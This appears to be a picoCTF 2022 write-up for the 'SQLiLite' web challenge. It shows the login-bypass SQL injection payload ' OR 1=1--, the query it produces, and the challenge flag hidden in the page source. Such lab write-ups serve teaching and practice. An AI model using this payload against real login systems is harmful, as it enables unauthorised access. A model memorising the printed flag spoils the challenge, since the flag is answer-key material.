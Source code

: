 # SQLiLite - picoCTF 2022 - CMU Cybersecurity Competition
Web Exploitation, 200 Points

## Description

![‏‏info.JPG](images/info.JPG)
 
## SQLiLite Solution

By browsing the [website](http://saturn.picoctf.net:53389/) from the challenge description we can see the following web page:

![webpage.JPG](images/website.JPG)

If we are trying to log in using ```admin:admin``` we get the following web page:

![adminadmin.JPG](images/admin.JPG)

We can see the SQL query, We can simply use SQL injection ```' OR 1=1--``` as a password, By using this SQL injection we get:

![success.JPG](images/success.JPG)

Now, By observing the source code we get the flag ```picoCTF{L00k5_l1k3_y0u_solv3d_it_33d32a56}```:
```html
<pre>username: admin
password: &#039; OR 1=1--
SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; AND password=&#039;&#039; OR 1=1--&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_33d32a56}</p>
```